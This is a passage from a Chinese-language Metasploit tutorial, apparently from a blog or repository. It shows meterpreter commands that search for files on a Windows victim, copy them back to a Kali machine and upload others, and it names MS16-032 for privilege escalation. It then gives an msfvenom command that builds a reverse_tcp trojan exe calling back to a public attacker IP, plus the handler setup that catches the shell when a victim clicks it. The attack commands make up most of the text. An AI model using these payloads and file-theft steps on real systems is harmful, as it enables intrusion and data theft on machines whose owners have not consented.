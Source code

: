 ![image-20220317151455621](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/e6c9d24ely1h0cwh114rnj20g90h7dje.jpg)

##### 4)查看目标1.txt文件内内容：cat 1.txt



##### 5)搜寻、拷贝、上传文件至目标（需要拥有system权限，可以利用getsystem、MS16-032漏洞进行提权）

搜寻c盘内所有以txt为后缀的文件：`search -f *.txt -d c:\`

拷贝文件至kali内：`download c:\1.txt /root`
上传文件至win7C盘目录下：`upload /home/zidian/msfadmin.txt c:\ `

## 4、生成exe木马

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=212.129.238.18 LPORT=4444 -f exe -o 123.exe
```

212.129.238.18是攻击者的监听机器，4444是被攻击机器监听端口

### 开启kali监听

启动msfconsole

![image-20220317151928134](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/e6c9d24ely1h0cwlr427jj20hg0gkta3.jpg)

#### 开启监听

```
use exploit/multi/handler
```



#### 设置tcp监听

```
set payload windows/meterpreter/reverse_tcp

set lhost 212.129.238.18
```

![image-20220317152306277](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/e6c9d24ely1h0cwpjmmdoj20uk0e640c.jpg)



#### 输入explore开始监听

### 木马上线

当被攻击的机器（我的是windows xp）点击生成的123.exe木马时，即可以监听到木马上线

![image-20220317152638860](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/e6c9d24ely1h0d12z9r3uj217009st9y.jpg)


